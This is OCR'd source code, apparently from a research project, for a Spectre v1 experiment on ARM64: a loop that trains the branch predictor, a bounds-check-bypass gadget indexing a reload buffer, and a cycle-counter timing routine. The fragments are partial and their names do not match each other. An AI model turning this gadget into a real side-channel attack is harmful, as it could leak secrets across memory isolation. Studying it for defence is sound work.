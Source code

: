 ```
REPEAT16(
	REPEAT20(
		for(i = 0 to 20){
			for(j = 0 to 10){
				train branch predictor
				spectre_v1();
				time_measurement();
			}
		}
	)
)

```
```
static inline __attribute__((always_inline)) void measure_time() {
	uint64_t init;
	uint64_t end;
	volatile uint64_t pick;
	asm volatile(
	"ldr x1, %[val]\n"
	:
	:[val] "m" (pick)
	: "x1"
	);
	for(volatile int z = 0; z < 100; z++){}
	isb();

	init = get_cycles();
	MOV(200);
	asm volatile(
	"adds x1, x1, #1\n"
	::: "x1"
	);
	end = get_cycles();
	isb();

	asm volatile(
	"str x1, %[val]\n"
	:
	: [val] "m" (pick)
	: "x1"
	);
	        printf("%ld\n", end - init);
	}

```

```
static inline __attribute__((always_inline)) void spectre_v1( size_t index) {
	/*
	 * Spectre v1 runahead
	 */
	if (index < size)
	{	
		NOPS(200);
		pick = reloadbuffer[fake_buffer[index] << 12];
	}
	measure_time();
}

```